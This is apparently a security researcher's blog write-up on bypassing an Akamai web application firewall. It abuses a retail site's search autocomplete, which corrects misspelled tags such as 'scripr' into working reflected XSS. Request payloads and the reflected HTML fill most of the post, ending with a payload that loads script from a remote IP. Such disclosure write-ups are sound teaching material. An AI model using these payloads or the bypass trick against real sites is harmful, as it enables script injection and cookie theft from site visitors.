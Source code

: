 +++
title = 'Bypassing a WAF With Autocomplete'
date = 2024-07-15T10:33:59+12:00
draft = false
+++

A few months ago, I was looking at a popular New Zealand website. I came across their search feature.
and found that when I interacted with the search box, it queried this endpoint to fetch the search results
<!--more-->

`<snip>/ViewSuggestSearch-Suggest&SearchTerm=tshirt`

```html
	<div class="suggest-results-list search-spring">
		<button type="button" class="close" title="Close"><span>×</span></button>
		<div class="suggest-suggestion-list col-xs-6">
			<h3>Search Suggestion</h3>
			<ul>
				<li class="classic">
					<button type="button" 
							data-search-result="tshirt" 
							class="search-result">
						<span class="ish-searchTerm">tshirt</span>
					</button>
				</li>
			</ul>
		</div>

(A bunch of products)...

```

The page would make these `HTTP GET` requests, and the endpoint would return a little HTML widget
that would then be embedded in the page. I tried injecting a HTML tag to test if this is vulnerable:

`/ViewSuggestSearch-Suggest&SearchTerm=<h1>HACKS?!</h1>`

```html
	<div class="suggest-results-list search-spring">
		<button type="button" class="close" title="Close"><span>×</span></button>
		<div class="suggest-suggestion-list col-xs-6">
			<h3>Search Suggestion</h3>
			<ul>
				<li class="classic">
					<button type="button" 
							data-search-result="<h1>hack?!</h1>" 
							class="search-result">
					<h1>hack?!</h1>
					</button>
				</li>
			</ul>
		</div>
```

Oops, that's not great—our input gets reflected without being sanitized! That means we can get
JavaScript execution, grab some cookies, and pwn people now… right? Let’s find out:

`/ViewSuggestSearch-Suggest&SearchTerm=<script>alert(document.domain)</script>`

![Website WAF Block screen](images/waf-block-screen.png)

Wow, that's a crazy coincidence! Isn’t it? Let’s look a little closer…

![WAF image link hover](images/waf-image-link.png)

Huh, okay, unfortunately, we have to work a bit harder. This company has paid attention to the
security checklist and installed a Web Application Firewall (WAF), namely Akamai's 'Kona Site
Defender'. You can read more about WAFs
[here](https://owasp.org/www-community/Web_Application_Firewall), but the idea is that if we can’t
stop all the vulnerabilities, we can at least make exploitation harder by blocking suspicious
requests.

Clearly this is a problem, how do we bypass it?

Looking back at our first injection attempt, we can notice something interesting: the word "HACKS"
got changed to "hack". This is likely due to an autocomplete feature, by the nature of it being a
search engine. This may prove useful in bypassing the WAF. Can we somehow craft a payload that slips
past the WAF, is then transformed by this autocomplete feature into something malicious,
and then reflected to the victim's browser? Well, we’ve already seen that it seems to disregard the
non-alphanumeric characters from its autocompleting (i.e., `<>/`). That’s good; we only have to
worry about the words. Let's try:

`/ViewSuggestSearch-Suggest&SearchTerm=<script>`

Blocked, ok thats expected,

What if we try “scripr”, a subtle misspelling of “script”? Will it autocomplete it?

`/ViewSuggestSearch-Suggest&SearchTerm=<scripr>`

```html
...
<li class="classic">
	<button type="button" 
			data-search-result="<script>" 
			class="search-result">
		<span class="ish-searchTerm"><script></span>
	</button>
</li>
...
```

Perfect! That looks good; the WAF doesn't block it. Let's build it up more. It turns out the
autocomplete doesn’t like the second word to be followed by a ">", so let's add a "/" which the
browser will ignore.

`/ViewSuggestSearch-Suggest&SearchTerm=<scripr></scripr/>`

```html
...
<li class="classic">
	<button type="button" 
			data-search-result="<script></script>" 
			class="search-result">
		<span class="ish-searchTerm"><script></script/></span>
	</button>
</li>
...
```

Sweet, it also seems that the WAF doesn’t like "alert(", so we'll use "alertt(" instead.

`/ViewSuggestSearch-Suggest&SearchTerm=<scripr>alertt(document.domain)</scripr/>`

![Alert Box](images/alert-box.png)

Yay! we did it :3, In terms of further exploitation, a payload such as
`<scripr/src="//<remote-ip>/"></scripr/>` seems to work and Note: It's much easier here with an ip
address as domain names will get autocompleted.

Overall this was a fun little bug to discover, and demonstrates how to utilize these types of
transformations to bypass WAF's and filters.
